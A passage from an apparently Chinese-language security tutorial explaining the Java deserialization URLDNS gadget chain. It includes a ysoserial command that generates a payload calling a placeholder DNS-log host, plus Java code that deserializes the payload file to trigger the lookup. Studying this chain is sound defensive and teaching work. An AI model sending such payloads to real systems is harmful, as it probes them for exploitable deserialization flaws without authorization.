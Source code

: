 ```java
            return null;
        }

        // 重写 getHostAddress 方法，返回 null
        protected synchronized InetAddress getHostAddress(URL u) {
            return null;
        }
    }
}
```

我们下载完 [ysoserial-all.jar ](https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar) 之后，可以来生成payload数据到文件中

```java
java -jar ysoserial-all.jar URLDNS "xxx.dnslog.pw"      //会默认生成一个out.ser的文件，里面就是urldn链的payload
```

这段代码是 Java 反序列化的一个简单示例，可用于读取和反序列化先前通过 `URLDNS` payload 生成的文件（本例为： `out.ser`）

```java
//UrldnsUnser.java 
package URLDNS;

import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;

// 定义类 UrldnsUnser，用于演示反序列化过程
public class UrldnsUnser {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        // 调用 unserialize 方法，传入序列化文件的名称
        unserialize("out.ser");
    }

    // unserialize 方法，用于反序列化指定文件
    public static void unserialize(String Filename) throws IOException, ClassCastException, ClassNotFoundException {
        // 创建一个 ObjectInputStream 来读取指定文件
        // FileInputStream 用于从文件系统中读取字节流
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream(Filename));

        // 从 ObjectInputStream 读取并反序列化对象
        // 这一步会触发之前序列化的对象的任何自动行为，例如在 URLDNS 攻击链中的 DNS 解析
        Object obj = objectInputStream.readObject();
    }
}
```

**利用链回顾**

我们在`URLDNS.java`中就看到了, 作者已经标出利用链的顺序：

> **大致流程** ：`java.util.HashMap` 重写了 `readObject`, 在反序列化时会调用 `hash` 函数计算 key 的 hashCode.而 `java.net.URL` 的 hashCode 在计算时会调用 `getHostAddress` 来解析域名, 从而发出 DNS 请求.
